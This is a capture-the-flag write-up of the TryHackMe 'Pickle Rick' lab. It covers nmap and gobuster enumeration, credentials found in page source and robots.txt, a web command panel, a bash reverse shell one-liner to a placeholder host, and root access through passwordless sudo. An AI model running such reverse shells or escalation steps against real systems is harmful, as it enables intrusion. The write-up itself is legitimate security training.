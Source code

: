 ```yaml
---
weight: 1
title: "TryHackMe - Pickle Rick Writeup"
date: 2021-07-10
draft: false
author: "SH∆FIQ ∆IM∆N"
authorLink: "https://shafiqaiman.com"
images: []
resources:
- name: "featured-image"
  src: "featured.png"

tags: ["gobuster"]
categories: ["TryHackMe"]

lightgallery: true
toc:
  auto: false
---
```


[Link : https://tryhackme.com/room/picklerick](https://tryhackme.com/room/picklerick)

## Enumeration

First, let’s do an enumeration with the IP address of this machine. I’m gonna run Nmap [Netwok Mapper] to scan any open ports. I’m gonna run this command

```
nmap -sC -sV -oN nmap/initial <machine ip>
```

### Explaining the nmap scan:
* -sC	:= scan using nmap default script
* -sV	:= scan for version
* -oN := output in normal format

![2](2.png)

Nmap scan shows us. There are 2 ports open ssh and HTTP. First, I’m gonna check port 80 because not common for ssh to log in as anonymous. Let’s check it out.

Cool! we got this web page

![3](3.png)

This is the very first thing I’m gonna do. You always need to check the page source code maybe we can find something interesting. Well, yes we did.

![4](4.png)

In this page source. We can see the comment says `Note to self, remember username!`. We have a username. Unfortunately, we don’t know where to log in as this username.

Well, I’m gonna run gobuster. Gobuster is a tool to find the hidden directory on this website

```
gobuster dir -u http://<machine ip> -w /path/to/wordlist.txt -x php,.txt,.html
```

![5](5.png)

The scan result shows us the hidden directory called `login.php` with status code 200 and we also found `robots.txt`

Let’s take a look at the login.php and robots.txt

![6](6.png)

If you remember. In the beginning, we found the username. If you look closely at the robots.txt it looks like something, maybe it is the password. Let’s try it.

![7](7.png)

wow! it’s working. We can see on this page, we can run the command in that box. So, I’m gonna execute reverse shell on that to make an easy foothold.

![8](8.png)

## Foothold/Gaining Access

![9](9.png)

```bash
bash -c ‘bash -i >& /dev/tcp/<your ip>/<listening port> 0>&1’
```

![10](10.png)

First, what I like to do is run the `sudo -l` command to check sudo permission/capability.

![11](11.png)

After, we ran that command. It says “(ALL) NOPASSWD: ALL”. This says 
> ‘Hey dude! you can run sudo without a password at all and be free to use it’.

This happens because of not properly configure the user and root.

Now, Let’s try find the first ingredient Rick needs.

![12](12.png)

Ok. We just have the first ingredient. However, We need two more the ingredient. So, let’s try to see any user home directory exists. Look like the user `rick` exists. Let’s try to check it out.

![13](13.png)

## Privilege Escalation

As we know, This user `www-data` can run sudo without a password at all. This means we can be root by running the command sudo su.

![14](14.png)

WoW! We just solve this box with ease and gain a lot of knowledge.

## Conclusion

I’ve learned a lot today. This shows us how dangerous it is if you don’t configure something properly. In this case, the sudo command. However, An attacker can be root in your machine if they have a good and strong foothold. Well, before an attacker can access make sure you have to patch all of your weak systems. In this machine, the website can execute bash. This is bad and an attacker easily got the reverse shell.

This room so much fun and I hope you guys have fun and learn something new today.